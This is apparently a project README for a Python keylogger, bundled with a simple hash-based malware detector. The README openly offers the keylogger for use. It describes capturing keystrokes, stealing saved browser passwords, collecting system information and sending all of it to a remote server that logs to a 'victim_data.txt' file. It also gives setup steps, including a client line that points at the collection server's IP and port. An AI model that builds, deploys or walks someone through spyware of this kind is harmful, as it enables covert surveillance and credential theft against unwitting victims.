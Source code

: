 # Keylogger Project And Simple Malware Detector

This project implements a simple keylogger that captures keystrokes from a client machine and sends them to a server for logging purposes. It also includes features to gather browser data and system information.

## Features

- **Keylogging:** Captures all keystrokes made on the client machine.
- **Network Communication:** Sends captured keystrokes over the network to a remote server.
- **Logging:** Logs keystrokes into a text file on the server.
- **Browser Data Theft:** Gathers saved passwords from browsers like Chrome, Edge, and Firefox.
- **System Information Gathering:** Collects host name, IP addresses, OS details, processor info, disk usage, and memory statistics.

### Malware Detector

The malware detector script analyzes files extracted from a specified archive. It calculates cryptographic hashes of files using various hashing algorithms (MD5, SHA-1, SHA-224, SHA-256, SHA3-384, SHA3-512) and compares them against a list of known malicious hashes. If a match is found, it identifies the file as potentially malicious.

## Requirements

- Python 3.x
- `pynput` library (for capturing keystrokes)
- `socket` library (for network communication)
- `os` module (for operating system related functions)
- `sqlite3` module (for accessing SQLite databases)
- `requests` library (for making HTTP requests)
- `json` module (for JSON data handling)
- `psutil` library (for system and process utilities)
- `platform` module (for retrieving system information)
- `pathlib` module (for handling file paths and directories)
- `shutil` module (for unpacking archives)
- `rarfile` library (optional, for handling RAR archives)
- `hashlib` module (for calculating file hashes using various algorithms)

## Installation and Setup

1. **Clone the repository:**

    ```bash
    git clone https://github.com/Oxshady/catcher--_-.git
    cd keylogger
    ```

2. **Install dependencies:**

    ```bash
    pip install pynput
    ```

    Ensure all required modules (`pathlib`, `shutil`, `rarfile` if used, `hashlib`) are available in your Python environment.

## Usage

### Setting up the Server

1. **Run the server script:**

    ```bash
    python server.py
    ```

    This script starts the server, listens for incoming connections, and logs keystrokes received from clients into a file (`./victim_data.txt`).

### Running the Keylogger Client

1. **Configure the Keylogger Client:**

    Modify `client.py` with the IP address and port of your server:

    ```python
    ke = Keylogger("server_ip", 9999)  # Replace with your server's IP and port
    ```

2. **Run the keylogger client script:**

    ```bash
    python client.py
    ```

    This script connects to the specified server and starts capturing keystrokes. It also gathers browser data and system information, sending all collected data to the server for logging.

## Troubleshooting

- **Connection Issues:** Ensure the server and client are running on the same network or have proper network access.
- **File Permissions:** Ensure the server has write permissions for the `./victim_data.txt` file in the project directory.

## Acknowledgments

- Thanks to the developers of `pynput`, `socket`, `sqlite3`, `requests`, `psutil`, `platform`, `pathlib`, `shutil`, `rarfile`, and `hashlib` libraries/modules for their contributions.

---

Ensure to adjust the IP address, port number, and paths in the scripts (`client.py` and `server.py`) according to your setup. This README provides a comprehensive overview of your keylogger project, including how it captures browser data, system information, and its integration with the malware detector functionality.

